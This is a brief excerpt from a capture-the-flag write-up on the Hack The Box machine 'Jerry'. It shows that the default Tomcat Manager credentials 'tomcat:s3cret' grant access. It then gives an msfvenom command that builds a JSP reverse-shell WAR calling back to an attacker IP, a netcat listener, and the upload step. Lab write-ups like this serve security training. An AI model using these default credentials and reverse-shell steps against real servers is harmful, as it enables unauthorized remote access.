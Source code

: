 <img src="/img/jerry-htb/flag.PNG" alt="Getting-gz" width="800" height="200">


The creds of `tomcat:s3cret` work to get access to the Tomcat Manager Application.


## exploit without Metasploit
create reverse shell with msfvenom
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f war -o shell.war
```

<img src="/img/jerry-htb/01.PNG" alt="Getting-gz" width="800" height="440">

```
nc -nlvp 4444
```
To get a shell, I’ll use the "WAR file to deploy" section of the manager application:
* upload it to Tomcat

<img src="/img/jerry-htb/02.PNG" alt="Getting-gz" width="800" height="440">
